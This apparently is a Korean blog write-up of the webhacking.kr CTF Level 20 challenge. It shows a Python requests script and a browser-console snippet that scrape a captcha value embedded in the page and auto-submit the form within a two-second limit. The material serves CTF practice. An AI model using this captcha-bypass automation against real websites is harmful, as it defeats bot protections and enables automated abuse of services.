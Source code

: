 ```yaml
---
layout: post
title: Webhacking.kr | Level 20
subtitle: Webhacking CTF Problem Solving
categories: Web
tags: [Pentest, Web]
---
```


**본 문제는 [webhacking.kr](https://webhacking.kr)를 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205825391-dc40a54c-dcf3-4a8d-be0e-8324276e14a8.png" width = 400> 
</p>

접속하면 입력해야 할 **nickname, comment, captcha** 세 부분이 존재하는데 최상단을 보면 **time limit : 2 second** 시간 제한은 2초로 되어 있다.

**captcha**로 인해서 2초내에 입력은 불가능할 것으로 보인다.

따라서, `python requests`를 이용해 해당 값을 자동으로 집어넣고 Submit하는 Exploit을 작성해보고자 한다.

## 문제 풀이

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205825840-2089f334-4061-4732-bc27-f70427d75a1e.png" width = 360> 
</p>

입력 값을 넣고 submit 하는것을 Burp Suite로 잡았을 때의 모습이다.

POST 방식을 이용하고 **Body**에 들어가는 변수로는 **id, cmt, captcha**인 것을 알 수 있다.

python을 이용해서 해당 리소스들이 어떤 식으로 존재하는 지 확인해본다.

```python
import requests

url = 'https://webhacking.kr/challenge/code-4/'

r = requests.get(url)
print(r.text)
```

```html
<html>
<head>
<title>Challenge 20</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; color:black; font-size:9pt; }
</style>
</head>
<body>
<center><font size=2>time limit : 2 second</font></center>
<form name=lv5frm method=post>
<table border=0>
<tr><td>nickname</td><td><input type=text name=id size=10 maxlength=10></td></tr>       
<tr><td>comment</td><td><input type=text name=cmt size=50 maxlength=50></td></tr>       
<tr><td>captcha</td><td><input type=text name=captcha><input type=button name=captcha_ value="C3t9ybswHJ" style="border:0;background=lightgreen"></td></tr>
<tr><td><input type=button value=Submit onclick=ck()></td><td><input type=reset value=reset></td></tr>
</table>
<script>
function ck(){
  if(lv5frm.id.value=="") { lv5frm.id.focus(); return; }
  if(lv5frm.cmt.value=="") { lv5frm.cmt.focus(); return; }
  if(lv5frm.captcha.value=="") { lv5frm.captcha.focus(); return; }
  if(lv5frm.captcha.value!=lv5frm.captcha_.value) { lv5frm.captcha.focus(); return; }   
  lv5frm.submit();
}
</script>
</body>
</html>
```

모든 내용을 `\n` 기준으로 `split`하고 captcha가 있는 부분을 인덱싱하여 값을 가져오면 된다.

이제 Burp Suite로 잡았던 것 처럼 값을 담아서 POST 보내보겠습니다.

```python
import requests

url = 'https://webhacking.kr/challenge/code-4/'

cookies = {
    'st' : '1670306429',
    'PHPSESSID' : 'd80585g759loihj05an8vqdenh'
}
r = requests.get(url)

lst = (r.text).split('\n')

captcha = lst[14][94:104]
print(captcha)

data = {
    'id' : '1',
    'cmt' : '1',
    'captcha' : captcha
}

r = requests.post(url, cookies = cookies, data = data)

print(r.text)
```

**하지만, captcah라는 것은 컴퓨터와 사람을 구분짓기 위한 완전 자동 튜링 테스트로, 웹사이트에서 사람이 접근하려고 하는 것인지 봇이 접근하는 것인지 판단하기 위하여 사용되는 테스트다.**

즉, Exploit을 날리게되면 컴퓨터인지 사람인지 구분하는 테스트를 진행할 수 없기 때문에 다시 접근해야 한다.

```javascript
function ck(){
  if(lv5frm.id.value=="") { lv5frm.id.focus(); return; }
  if(lv5frm.cmt.value=="") { lv5frm.cmt.focus(); return; }
  if(lv5frm.captcha.value=="") { lv5frm.captcha.focus(); return; }
  if(lv5frm.captcha.value!=lv5frm.captcha_.value) { lv5frm.captcha.focus(); return; }
  lv5frm.submit();
}
```

개발자도구를 켜고 스크립트를 보면 값을 보낼 때 누르는 Submit에 **onclick = ck()**이 있다.

개발자도구 콘솔을 이용해 captcha의 값을 읽은 동시에 값을 넣고 강제로 Submit을 할 수 있을 것이다.

```javascript
lv5frm.id.value = "1"
lv5frm.cmt.value = "1"
lv5frm.captcha.value = lv5frm.captcha_.value
lv5frm.submit();
```

새로고침하고 해당 값을 엔터하면 해결이 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/205836357-46da40de-eac1-416b-8b52-9c7267f282ab.png" width = 400> 
</p>